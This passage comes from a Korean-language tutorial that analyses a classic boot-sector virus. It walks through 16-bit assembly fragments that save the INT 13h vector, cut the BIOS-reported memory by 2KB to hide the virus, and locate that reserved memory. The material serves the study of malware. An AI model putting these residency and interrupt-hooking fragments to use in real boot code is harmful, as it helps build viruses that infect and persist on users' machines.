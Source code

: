 코드 실행 이후 레지스터는 다음과 같이 설정된다.

|ax|bx|cx|dx|si|di|cs|ds|es|ss|sp|
|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|
7C00|0000|0000|0000|0000|0000|0000|0000|0000|0000|7C00|

코드 실행 이후 스택은 다음과 같이 설정된다.
|0000:7C00|
|:-:|
|0000|
|7C00|


**⭐ STEP 2**  
기존의 인터럽트 13의 코드 주소를 oldint13h라는 변수에 백업한다
``` asm
entervirus:
            ...
		mov     ax,ds:[13h*4]
		mov     word ptr ds:[7C00h+offset oldint13h],ax
		mov     ax,ds:[13h*4+2]
		mov     word ptr ds:[7C00h+offset oldint13h+2],ax
```
* ax에 0:4C의 2바이트를 넣는다  
(인터럽트당 4바이트의 주소가 존재하기 때문에 13번째 인터럽트는 13x4)
* 가져온 인터럽트 주소의 앞 2Byte(오프셋)를 oldint13h 변수에 넣는다
* ax에 0:4E의 2바이트를 넣는다
* 가져온 인터럽트 주소의 뒤 2Byte(세그먼트)를 oldint13h 변수 2바이트 뒤에 넣는다  

**⭐ STEP 3**  
응용 소프트웨어가 침범하지 못하는 공간을 확보하여 바이러스를 살려두기 위해 메모리 크기를 2KB만큼 줄인다. 
``` asm
entervirus:
            ...
		mov     ax,ds:[413h]
		dec     ax
		dec     ax
		mov     ds:[413h],ax
```
* 0:413에 저장되어있는 메모리 크기(KB) 정보를 ax로 읽어온다
* ax를 1 감소시킨다
* ax를 1 감소시킨다
* 0:413에 ax를 넣는다  

**⭐ STEP 4**  
확보한 메모리의 실제 주소를 백업
``` asm
entervirus:
            ...
		mov     cl,6
		shl     ax,cl
		mov     es,ax
		mov     word ptr ds:[7C00h+2+offset highmemjmp],ax
```
* cl에 6을 넣는다
* ax(줄인 메모리 크기) * 2<sup>6</sup>  
(메모리 크기 * 2<sup>10</sup> / 16 = 메모리 주소의 세그먼트 값)
* es에 줄인 메모리 주소의 세그먼트 값을 넣는다
* highmemjmp 변수의 3번째 바이트에다가 백업한다
